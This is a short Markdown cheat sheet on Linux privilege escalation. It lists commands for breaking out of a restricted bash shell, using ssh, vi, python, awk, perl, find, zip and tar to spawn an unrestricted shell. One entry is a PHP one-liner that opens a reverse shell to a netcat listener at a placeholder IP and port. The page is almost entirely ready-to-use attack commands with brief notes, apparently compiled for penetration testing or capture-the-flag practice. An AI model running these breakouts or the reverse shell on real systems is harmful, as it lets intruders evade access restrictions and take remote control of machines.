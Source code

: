 # Linux PrivEsc CheatSheet
[Home](../../index.md) | [CheatSheets](../../cheatsheets.md) | [About](../../about.md)

## Restricted Bash Shell Breakout:
                                                                	
| Command                                                                                           	| Notes                                                                                                                                    	                |
|-----------------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------------------	|
| $SHELL                                                                                            	| Determine if we are in an rbash shell (/bin/rbash)                                                                                       	|
| ssh user@ip -t "bash --noprofile"                                                                 	| Bypass rbash if we can use SSH along with a known username and password                                                                  	|
| vi<br>:set shell=/bin/bash<br>:shell                                                              	| Use vi or vim to breakout of rbash and use /bin/bash, alternatively could use any other shell. E.g zsh<br>                               	|
| php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash -i <&3 >&3 2>&3");'                            	| Use PHP to create a reverse shell connection to a netcat listener on our machine @ IP:PORT, note we need to start <br>a netcat listener. 	|
| python -c 'import os; os.system("/bin/bash");'<br>python3 -c 'import os; os.system("/bin/bash");' 	| Use Python if available on the target system to escape rbash and spawn a generic bash shell.                                             	|
| awk 'BEGIN {system("/bin/bash")}'                                                                 	| Escape rbash using AWK                                                                                                                   	|
| perl -e 'system("/bin/bash");'                                                                    	| Use PERL to escape rbash and spawn a bash shell                                                                                          	|
| find / -name test -exec /bin/sh or /bin/bash \;                                                   	| Use the find command to execute the /bin/bash binary                                                                                     	|
| cp /bin/bash .                                                                                    	| Copy the /bin/bash binary to your current directory, this only works if / is allowed.                                                    	|
| zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"                                  	| Use the zip command to spawn a bash shell, create a zip file first using touch.                                                          	|
| tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash                       	| Use the tar command to execute the bash binary upon archive creation.                                                                    	|
